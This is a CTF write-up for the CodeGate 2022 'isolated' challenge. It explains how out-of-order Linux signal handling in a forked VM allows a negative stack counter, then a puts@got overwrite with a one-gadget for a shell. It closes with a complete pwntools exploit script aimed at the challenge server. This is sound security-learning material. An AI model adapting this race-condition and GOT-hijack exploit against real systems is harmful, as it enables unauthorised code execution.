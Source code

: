 ```yaml
---
title: Communication of Processes in Linux - Isolated
date: 2022-02-27 11:11:21
tags: CTF
layout: default
---
```

isolated CodeGate 2022, Preliminary
<!--more-->

# 0x00 Prologue

I played this CTF with my teamates @r3kapig, we ranked 10th(5330 points). It's a pity that we need 28 pints more to get the tickets to
the final. But I really enjoy this CTF. I spent the whole day on this
challenge, isolated. Besides, I learned a lot about the linux signal and
communication between porcesses.

# 0x01 Intro to the challenge

It's a simple challenge. It uses fork to get a child process They use
shared memory and signals to communicate with each other.

#### Parent Process

It uses \"signal\" function to register several signals, including
SIGHUG, SIGINT, SIGQUIT, and SIGILL. It replaces the original fucntions
with our VM atomic operations, including PUSH, POP, CLEAN STACK, and
LOG.

#### Child Process

The son child implements a VM and takes our inputs as code. There is no
vulnerability in the VM or the VM-atomic-operations.

In the vm we have two not-blocked-operations and 8 blocked-operations.
blocked-operations would block until it gets the result from another
process while the not-blocked ones don't care about the results.

#### PWN

Our goal is to escape from the VM and get a shell. The venerability of
this VM is that the linux signal is out-of-order and the
handle-functions are not the atomic operations.

# 0x02 Solution

#### Init

I don't know if my guess is correct or not, because the debugging of
multi-process challenge is intricate, I just had a try (atcually tons of
tries) and it works!

#### Background

It's out-of-order when the signal is processed and if the signals are
processed in the following order we could get a negative stack counter.

#### My Guess

We could split the POP handle function into 2 steps.

1\. Check if the stack counter is less than 0

2\. Decrese the stack counter

#### Trigger

We can trigger the vulnerability by following steps.

1\. Clean Stack to set stack counter to 0

2\. Push Signal to set stack counter to 1

3\. Signal-POP 1: pop-handle-step1

4\. Signal-POP 2: pop-handle-step1

5\. Signal-POP 1: step2

6\. Signal-POP 2: step2

7\. Get a negative stack counter

#### Get a shell

The following exploitation is more straightforward. We could modify the
got and use one-gadget to get a shell. I tried printf@got but failed and
I succeeded in hijacking put@got.

# 0x03 Exploit
```python
        from pwn import *
        def push(val):
            return p8(0)+p32(val)
        def pop():
            return b'\x01'
        def div(v1,v2):
            return p8(5)+b'f'+p32(v1)+b'f'+p32(v2)
        def log(v):
            return p8(10)+p8(0x66)+p32(v)
        def eee(idx,val):
            # cmp + je
            return p8(6)+b'U'+b'f'+p32(val)+p8(8)+b'f'+p32(idx)
        def eax(idx):
            # cmp + je
            return p8(6)+b'f'+p32(0)+b'U'+p8(8)+b'f'+p32(idx)
        def add(v1,v2):
            return p8(2)+b'f'+p32(v1)+b'f'+p32(v2)
        def safe_show2():
            return p8(6)+b'U'+b'U'
        def hangup(off):
            return p8(7)+p32(off)
        #context.log_level='debug'
        #p= process("./isolated")
        p=remote("3.38.234.54",7777)
        #p=remote("0.0.0.0",7777)
        sa = p.sendafter
        def loopn(n):
            res = b''
            for x in range(n):
                res+=safe_show2()
            return res
        pay  = log(1)+push(0)+log(1)+pop()+pop()+pop()+pop()
        pay += b'\x09'+eax(len(log(0)))
        pay += loopn(37-9)+p8(6)+b'Uf'+p32(0x132)
        pay += p8(2)+b'U'+b'f'+p32(0x8997c)+safe_show2()
        pay += log(1)+hangup(len(pay))
        
        sa("opcodes >",pay.ljust(0x300,b'\x0f'))
        sleep(1)
        p.read()
        p.send(b"cat flag*\n")
        p.interactive()
```